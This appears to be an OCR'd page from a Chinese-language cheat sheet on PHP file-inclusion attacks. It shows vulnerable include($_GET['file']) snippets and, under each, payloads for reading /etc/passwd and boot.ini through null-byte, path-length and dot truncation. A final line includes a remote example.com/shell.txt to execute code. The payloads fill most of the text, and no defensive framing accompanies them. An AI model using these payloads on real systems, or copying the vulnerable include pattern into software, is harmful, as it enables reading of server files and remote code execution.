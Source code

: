 
### **有限制的本地文件包含**
```php
<?php include("inc/" . $_GET['file'] . ".htm"); ?>
```

---

### **攻擊方式**

### **%00 截斷**
```
?file=../../../../../../../../../etc/passwd%00

(需要 magic_quotes_gpc=off,PHP 小於 5.3.4 有效)
```
---

### **%00 截斷目錄遍歷**
```
?file=../../../../../../../../../var/www/%00

(需要 magic_quotes_gpc=off,unix 文件系統,比如 FreeBSD,OpenBSD,NetBSD,Solaris)
```

---

### **路徑長度截斷：**
```
?file=../../../../../../../../../etc/passwd/././././././.[…] /./././././.

(php 版本小於 5.2.8(?)可以成功,linux 需要文件名長於 4096,windows 需要長於 256)
```

---
### **點號截斷：**
```
?file=../../../../../../../../../boot.ini/………[…]…………

(php 版本小於 5.2.8(?)可以成功,只適用 windows,點號需要長於 256)
```
---

### **普通遠程文件包含**

```php
<?php include($_GET['file']); ?>
```
---

### **攻擊方式**
### **遠程代碼執行：**
```
?file=[http|https|ftp]\://example.com/shell.txt

(需要 allow_url_fopen=On 並且 allow_url_include=On)
```
---
